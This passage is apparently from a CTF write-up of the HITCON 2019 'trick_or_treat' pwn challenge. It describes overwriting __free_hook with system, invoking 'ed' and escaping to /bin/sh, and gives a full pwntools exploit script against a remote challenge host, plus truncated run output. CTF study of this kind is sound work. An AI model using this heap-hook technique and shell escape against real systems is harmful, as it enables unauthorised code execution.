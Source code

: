I immediately remembered reading a writeup of some HackTheBox machine where the solution was to escape a restricted shell using `ed`, so I gave that a shot, and it worked.

The exploit is simple, we overwrite `__free_hook` with `system` and then call `system("ed")`, and then escape out of `ed` by typing `!/bin/sh`.

My exploit script behaved a bit weird, but here is the final script:
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./trick_or_treat')
libc = ELF('./libc.so.6')

#p = process('./trick_or_treat')
p = remote('3.112.41.140', 56746)

context.terminal = ['tmux', 'new-window']

p.recv()

# Get a new mmapped chunk right before libc
# also aligned with libc
p.sendline('10000000')

chunk = int(p.recv().split('\n')[0].split(':')[1], 16)
libc.address = chunk + 0x989ff0 # Found using gdb, always constant
free_hook = libc.symbols['__free_hook']
free_hook_off = (free_hook - chunk) / 8 # Offset to __free_hook
system = libc.symbols['system']

log.info('Chunk: ' + hex(chunk))
log.info('__free_hook: ' + hex(free_hook))
log.info('free_hook_off: ' + hex(free_hook_off))
log.info('system: ' + hex(system))
log.info('Libc base: ' + hex(libc.address))

# Overwrite __free_hook with system
p.sendline('{} {}'.format(hex(free_hook_off), hex(system)))

print p.recv()

# Make scanf call malloc followed by free
p.sendline('A'*50000)

# Call system('ed')
p.sendline('ed')

# Escape out of ed and get a shell
p.sendline('!/bin/sh')

p.interactive()

```
```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-re-challenges/hitcon-2019/trick_or_treat$ ./exploit.py 
[*] '/ctf/pwn-and-re-challenges/hitcon-2019/trick_or_treat/trick_or_treat'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/pwn-and-re-challenges/hitcon-2019/trick_or_treat/libc.so.6'
    Arch:     amd64-64-little
```